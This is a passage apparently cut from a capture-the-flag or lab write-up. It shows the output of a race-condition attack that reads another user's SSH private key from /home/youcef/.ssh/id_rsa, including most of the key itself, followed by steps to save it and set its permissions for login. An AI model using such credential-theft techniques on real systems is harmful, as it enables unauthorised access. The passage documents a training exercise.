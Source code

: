 ```bash
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
TabCXd2Ji/Y7UvM=
-----END OPENSSH PRIVATE KEY-----
I guess you won!
Private key found! Stopping the loop...
```

As we can see, after a while, we win the race and manage to read /home/youcef/.ssh/id_rsa.


new bash
```bash
vim key

paste key

:wq
```

permission
```bash
chmod 400 key
```

get ssh password:
